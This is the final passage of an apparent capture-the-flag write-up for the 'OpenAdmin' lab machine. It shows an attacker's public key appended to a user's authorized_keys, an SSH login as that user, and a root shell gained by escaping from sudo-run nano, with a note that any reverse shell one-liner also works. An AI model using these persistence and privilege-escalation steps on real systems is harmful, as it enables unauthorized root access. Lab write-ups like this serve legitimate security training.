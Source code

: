 Then, add our public key (`openadmin.pub`) into joanna's authorized_keys.

`$ echo 'ssh-rsa <SNIP> root@kali' >> authorized_keys`

We can now connect to the machine via SSH as joanna.

`ssh joanna@10.10.10.171 -i openadmin`

### Getting A Shell From Within Nano

Now, let's launch nano as root.

`sudo /bin/nano /opt/priv`

[To escape nano into shell](https://gtfobins.github.io/gtfobins/nano/):

* Then, press `^R` followed by `^X` to execute command within nano.
* Execute `reset; sh 1>&0 2>&0` to escape into a shell. 

You can also execute any reverse shell one liner.

![nano escape](./nanoescape.png)

# Thoughts

This is a straightforward box that reinforces a few basic techniques for Linux boxes.

